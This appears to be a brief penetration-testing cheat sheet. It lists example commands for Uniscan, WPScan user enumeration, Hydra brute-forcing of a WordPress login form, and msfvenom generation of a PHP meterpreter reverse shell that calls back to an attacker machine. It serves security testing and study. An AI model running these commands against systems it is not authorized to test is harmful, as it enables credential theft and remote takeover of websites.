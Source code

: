 # Application Security Testing Tools

#### Uniscan \(Kali\)

Remote file include \(RFI\), Local file include \(LFI\), and Remote Command Execution \(RCE\) vulnerability scanner

e.g.

```
> uniscan -u http://[hostname]/ -qweds
```

#### wpscan \(Word Press Scanner\)

word press scanner and enumerator

```
> wpscan --url [hostname] --enumerate users
```

#### Hydra

username/password brute forcing 

e.g.

```
hydra [host] http-form-post "/wp-login.php:user=[user]&pass=^PASS^:ERROR" 
    -l [user] 
    -P [dictionary-file]
    -t 10 -w 30
```

#### MSFVenom

metasploit unleashed payload generator

e.g.

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=[yourmachine] LPORT=[port] -f raw >shell.php
```



